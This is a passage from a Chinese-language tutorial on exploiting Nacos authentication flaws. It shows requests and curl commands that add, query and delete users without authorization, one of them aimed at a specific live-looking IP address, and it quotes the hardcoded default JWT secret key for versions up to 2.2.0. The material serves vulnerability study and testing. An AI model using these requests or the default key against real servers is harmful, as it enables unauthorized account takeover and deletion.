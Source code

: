 If-Modified-Since: Wed, 28 Jul 2021 11:28:45 GMT  
  
Priority: u=0, i  
  
Content-Type: application/x-www-form-urlencoded  
  
Content-Length: 30  
> username=test&password=test123  
  
  
![1745676819_680cea13ec72d1e677f5b.png!small?1745676821124](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaKHIdibthRkQwHic6jbXLrxEPHGupewVYZyBk533sE9dU6qGwMbFdiamSw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
查看用户是否添加成功:  
  
/nacos/v1/auth/search?username=test  
  
![1745676873_680cea49caca169b83348.png!small?1745676874750](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia51fbdmibia0TfYiaVrdHafNm4EKroNib2DzoHJ78RIdicicf0MpPn3V1nFqg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
curl 'http://IP/v1/auth/search?username=test'  
  
![1745677097_680ceb298949373a428b8.png!small?1745677098528](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMIHn9rCNdEqIiaibP1I6iarKR7mnkTT7eS0FPgs4NXaLPfZLpicAqho9JQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![1745676942_680cea8ee5ec9dce1458c.png!small](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiapLXfA7XTfTUQE6UDDo7GbXDYJccE2bknnFNicJdXKib4oHrbvQOV8b2A/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
删除用户  
  
curl -X DELETE "http://47.83.174.204:8848/nacos/v1/auth/users?username=test"  
  
或者访问 /nacos/v1/auth/users?username=test，将请求方法修改为DELETE即可删除用户test  
  
![1745677123_680ceb43a13d124bfeafc.png!small?1745677124621](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia2j2hYLqGcd3rWVqRHpicQ5LNwKiaEPQ2xYBiaQTkWL0gvCiab8zPl0OwkQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
或者使用工具直接进行用户的添加  
  
先将有漏洞的站点扫描一遍选择ua权限绕过漏洞进行添加  
  
![1745677152_680ceb600ff9436bd9502.png!small?1745677153243](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaxJAvibqW2vaABZhOXRB49mycibd0FWrfEc6bCic0bYcmibSFADLd4cgvkw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![1745677162_680ceb6ab37c475c3937a.png!small?1745677164028](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaPz96QcupPQT0gHL9AKLQiaepyoQmkagfib2yWTDpshgFja26oAURf4XA/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
### 5.默认jwt密钥-未授权访问  
  
开启了nacos.core.auth.enabled 的情况下，如果未修改默认nacos.core.auth.default.token.secret.key的值（在Nacos<=2.2.0版本中，该值为默认值），则可以通过accessToken值来绕过权限。  
> nacos.core.auth.default.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789 # =后边的是默认的硬编码  
  
  
**影响版本**  
  
0.1.0<=nacos<=2.2.0  
#### 漏洞原理  
  
输入正确的账号密码，则后端会返回对应该用户的加密accessToken。  
  
请求包  
> POST /nacos/v1/auth/users/login HTTP/1.1  
  